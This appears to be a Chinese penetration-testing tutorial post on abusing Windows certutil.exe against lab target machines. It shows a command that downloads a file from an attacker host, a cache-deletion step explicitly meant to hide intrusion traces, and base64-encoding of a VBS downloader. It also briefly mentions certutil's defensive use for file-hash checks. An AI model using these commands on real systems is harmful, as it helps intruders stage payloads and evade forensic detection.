 ### certutil微软官方是这样对它解释的：
> Certutil.exe是一个命令行程序，作为证书服务的一部分安装。您可以使用Certutil.exe转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原CA组件以及验证证书，密钥对和证书链。  

url:https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc732443(v=ws.11)

但是近些年好像被玩坏了。

**靶机：**windows 2003 windows 7

```bash
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt
```
![](/img/d5ad3e478f8b4df59283786537e748f6.jpg)

默认下载为bin文件。但是不影响在命令行下使用。  
![](/img/346d182aad2fafe6b894d0b08c994e0e.jpg)

certutil.exe 下载有个弊端，它的每一次下载都有留有缓存，而导致留下入侵痕迹，所以每次下载后，**需要马上执行如下**：

```bash
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete
```

![](/img/1e7636c8225aaf3cd99d81bd44afeff9.jpg)

而在应急中certutil也是常用工具之一，来对比文件hash，来判断疑似文件。

**Windows 2003：**  
![](/img/4dd859482e45ae5632c0302798c69329.jpg)

**Windows 7：**  
![](/img/edec57e27ee820bc6c423481454ee6fc.jpg)

### certutil的其它高级应用：
```bash
C:\>certutil -encode c:\downfile.vbs downfile.bat
```
![](/img/cb14f787f5f65099047d739544e41dbc.jpg)

**file:downfile.bat**  

![](/img/b659cc22fd3ef3bc8931857f8a255c44.jpg)

**解密：**  
![](/img/bdb9cc7f59e382ddb3e607e704bea481.jpg)

**file:downfile.txt**  
![](/img/f0e6d3203cc514f0a7c611453246da1e.jpg)

>后者的话：powershell内存加载配合certutil解密是一件非常有趣的事情。会在未来的系列中讲述。

>   Micropoor
